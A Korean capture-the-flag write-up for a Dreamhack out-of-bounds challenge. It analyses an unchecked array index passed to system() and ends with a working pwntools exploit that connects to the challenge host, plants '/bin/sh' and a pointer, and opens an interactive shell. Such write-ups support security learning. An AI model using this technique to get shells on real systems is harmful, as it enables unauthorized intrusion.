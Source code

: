 # Exploit Tech: Out of bounds  

### **Enviroment**  

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### **코드 분석**

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}

```

코드를 쭉 읽어보니  
`scanf("%d", &idx);`   
`system(command[idx])`   
여기에 입력 검증이 없다는 것을 알 수 있다.  

그러면 위에 `name` 에 `/bin/sh`를 치고 그 부분을 읽게 하면 될거같다  

<br>


![image](https://github.com/user-attachments/assets/3bd4724f-453b-4c12-80ee-96d796f84d5d)

![image](https://github.com/user-attachments/assets/bf555aaf-c6ff-41db-a3c9-52f72d78de3a)

`Admin name`을 입력 받는 곳에 브레이크를 걸고,  
어디에 저장되는지 봐두자.  파이가 꺼져있으니 항상 같은 주소에 있다.    

<br>

0x804a0ac 에 저장된다는 것을 알았으니 이제 command 의 베이스 주소를 찾아보면  
![image](https://github.com/user-attachments/assets/a58e859e-d136-4c24-8a0e-15da40104db7)

![image](https://github.com/user-attachments/assets/cd2ecb42-cc6d-4ab3-b463-e666123cdfd3)

<img src="https://github.com/user-attachments/assets/21eae627-3d4d-4f7c-985b-6791fe527ed4" width=500>



0x804a060에 command의 베이스 주소가 있다는 것을 알 수 있다.  

<br>

![image](https://github.com/user-attachments/assets/6a016334-a8f7-47a6-b6b5-d41bc4187355)

이걸로 76바이트 떨어진, command[19] 를 보면 되겠다.

그래서  `/bin/sh`를 넣고 `idx=19`를 해보면,

<br>

![image](https://github.com/user-attachments/assets/31377472-44f0-4c06-be1f-1ea4257625cd)


제대로 안들어가진다. 

4바이트만 들어갈 수 있으니 중간에 잘리게 된다. 

그러니 system(0x804a0ac) 으로 주소 안에 "/bin/sh\x00" 값을 모두 읽을 수 있게 해주자

command 베이스주소랑 76 + 8바이트가 차이나면 되니까 idx=21 을 해주면 된다

**익스플로잇 코드**

```c
from pwn import *

p = remote("host3.dreamhack.games", 9314)
#p = process('./out_of_bound')

payload = b"/bin/sh\x00" + p32(0x804a0ac)

p.sendline(payload)
p.sendline(b"21")

p.interactive()
```

![image](https://github.com/user-attachments/assets/b9be86cb-6796-42b7-9ac2-16804ad4737c)

성공이다
